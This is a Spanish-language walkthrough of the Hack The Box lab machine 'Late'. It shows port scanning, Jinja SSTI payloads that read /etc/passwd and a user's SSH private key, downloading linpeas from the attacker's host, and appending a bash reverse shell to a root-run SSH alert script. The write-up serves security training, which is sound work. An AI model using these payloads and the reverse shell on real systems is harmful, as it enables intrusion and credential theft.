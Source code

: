 ```yaml
---
title: 'Late'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1686607648/late_info_ulqc74.webp'
slug: 'box/late'
---
```


### Escaneo de puertos

Hacemos nuestro escaneo de puertos como es usual y verificamos cuáles están abiertos y qué servicios están corriendo en cada uno, por ejemplo en esta Máquina tenemos el puerto 80 y 22

```bash

nmap -p- --open --min-rate 5000 -Pn 10.10.11.156 -oG puertosAbiertos'
```

Vemos que en el puerto 80 está corriendo un servidor web <i>late.htb</i> lo agregamos a nuestro archivo <i>/etc/hosts</i> de nuestra máquina

```bash
10.10.11.156 late.htb
```

### Enumeración

Mientras hacemos un recorrido por la página notamos que en la parte de abajo tenemos unos nuevos enlaces que apuntan a <i>images.late.htb </i>,
lo añadimos a <i>/etc/hosts </i>para luego ingresar a la URL, y vemos la siguiente vista:

<img
layout="fill"
src='https://res.cloudinary.com/djc1umong/image/upload/v1686607657/fuzzing_enumeration_yydcsi.png'
alt='Enumeración de la maquina Late en Hack The Box'
/>

### Archivo hosts

En el archivo <i>/etc/hosts</i> de nuestra máquina añadimos:

```bash
10.10.11.156 images.late.htb
```

Nos vamos a la nueva URL:

<img
layout="fill"
src="https://res.cloudinary.com/djc1umong/image/upload/v1686607671/late_1_temcpg.webp"
alt="Vista images.late.htb de la maquina Late en hack the box"
/>

Vemos en el título que esta página usa Flask, necesitamos saber como funciona este conversor de imagen a texto
creamos nuestra imagen con Photoshop, GIMP, etc. Testeamos la App para vulnerabilidades comunes como XSS, SQLi y CMDi
abrimos e ingresamos payloads para estas vulnerabilidades enganchamos que una SSTI funciona <i>&#123; &#123; 7 \* 7 &#125; &#125;</i>

Lo subimos a la web y nos retorna un archivo llamado <i>result.txt</i> con el siguiente contenido.

La palabra “Late” nos dice porque un SSTi pudo funcionar (Temp”late”). Al intentar conseguir nuestro RCE al subir una imagen con el siguiente payload por ejemplo

```bash
text="{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/etc/passwd’).read() }}"
```

La web lo procesa y al convertir imagen a texto algunos caracteres son añadidos y otros se pierden

```bash
text="f{ ‘’_lsd__. _mro__.subclasses__([‘/etc/passwd’).read() }}"
```

Después de verificar esto notamos que tenemos ejecución de remota de comandos y podemos ver el archivo /etc/passwd
Notamos que hay un usuario "svc_acc" con su llave ssh privada y capacidad de login.
Volvemos a subir nuestro payload, cambiando el path al archivo id_rsa.

```bash
text="{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/home/svc_acc/.ssh/id_rsa’).read() }}"
```

Ahora que tenemos el id_rsa hacemos un login con el usuario svc_acc

```bash
chmod 600 id_rsa"
ssh svc_acc@10.10.10.156 -i id_rsa"

```

### Root

Descargamos linpeas e intentamos enumerar rutas con privilegios.
Montamos nuestro servidor

```python
python3 -m http.server 8080"

```

Luego en la máquina Late

```bash
svc_acc@late:~$ wget http://10.10.14.63:8080/linpeas.sh"

chmod +x linpeas.sh
./linpeas.sh
```

Encontramos el archivo ssh-alert.sh.

svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh

```bash
#!/bin/bash
RECIPIENT=”root@late.htb”
SUBJECT=”Email from Server Login: SSH Alert”
BODY=”
A SSH login was detected.
User: $PAM_USER
User IP Host: $PAM_RHOST
Service: $PAM_SERVICE
TTY: $PAM_TTY
Date: `date`
Server: `uname -a`
“
if [ ${PAM_TYPE} = “open_session” ]; then
echo “Subject:${SUBJECT} ${BODY}” | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Vemos que se ejecuta cada vez que entablamos una sesión
inspeccionamos los atributos que tiene aunque no tiene el de
escribir podemos crear un archivo y anexarlo.

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
— — -a — — — — e — — /usr/local/sbin/ssh-alert.sh"
```

Creamos un archivo file.txt con el payload de Reverse Shell y lo añadimos
al archivo ssh-alert.sh

```bash
bash -i >& /dev/tcp/10.10.14.63/9999 0>&1"
cat file.txt >> /usr/local/sbin/ssh-alert.sh
```

Configuramos un netcat en la Late y en nuestra máquina hacemos login.

```bash
nc -lvnp 9999

cat flag.txt

```
